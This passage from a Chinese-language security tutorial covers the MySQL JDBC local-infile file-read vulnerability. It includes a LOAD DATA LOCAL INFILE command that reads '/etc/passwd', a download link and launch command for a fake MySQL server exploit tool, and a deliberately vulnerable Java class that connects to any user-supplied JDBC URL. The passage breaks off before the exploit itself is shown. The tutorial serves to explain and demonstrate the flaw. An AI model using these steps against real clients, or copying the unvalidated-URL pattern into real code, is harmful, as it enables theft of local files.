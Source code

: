 - 连接数据库

  ```sql
  mysql --local-infile=1 -h my_ip -u root -p password
  ```

- mysql client读取本地文件并传输到mysql server的表中,

  > mysql server是由你控制，你可以通过配置文件设置开启允许本地文件读取
  >
  > SET GLOBAL local_infile = true;  // server启用本地数据加载功能，允许从客户端加载本地文件到MySQL服务器中
  
  ```sql
  LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE test.my_table;    //读取本地文件到服务器数据库的表中
  ```
  
  成功读取到文件内容：![3241706456254_.pic](https://p.ipic.vip/risg71.png)
  

#### ALLOW LOAD LOCAL INFILE

> 在jdbc-mysql-connector sdk中，控制client是否可以load local file的就是这个参数，在5.x和8.x中默认都是false），所以需要在jdbc url中配置allowLoadLocalInfile=true



## 漏洞利用演示

### 前置条件

> 通过前面的了解，我们大概知道，一次有可能成功的jdbc文件读取漏洞的利用，起码要满足几个基本条件，如下所示：

- **可控的JDBC连接字符串**：攻击者需要能够控制或修改JDBC连接字符串，且应用程序未正确清理或限制用户输入。
- **服务器的文件系统访问**：服务端可以要求客户端读取有可读权限的任何文件。



### 利用步骤

> 伪造一个mysql服务器(监听3306端口)，这个伪造的mysql服务器可以不实现mysql任何功能（除了向客户端回复 greeting package外），当有其他客户端连接上该服务器时，直接发送读取该客户端上的指定文件的指令（前提是客户端具有该文件读写权限）

**准备假mysql服务器**

jdbc漏洞利用工具下载地址：`https://github.com/4ra1n/mysql-fake-server/releases/download/0.0.4/fake-mysql-cli-0.0.4.jar`

启动假的mysql服务器：`java -jar fake-mysql-cli-0.0.4.jar -p 3306 `

**假使现在有一个jdbc服务如下所示：**

```java
// JDBCExploitDemo.java
import java.sql.Connection;
import java.sql.DriverManager;
import java.util.Scanner;

public class JDBCExploitDemo {

    public static void main(String[] args) {
        Scanner scanner = new Scanner(System.in);
        System.out.println("Enter JDBC URL: ");
        String jdbcUrl = scanner.nextLine(); // 用户输入的JDBC URL

        try (Connection conn = DriverManager.getConnection(jdbcUrl)) {
            System.out.println("Connected to the database successfully.");
        } catch (Exception e) {
            System.out.println("Connection failed.");
            e.printStackTrace();
        }
    }
}
```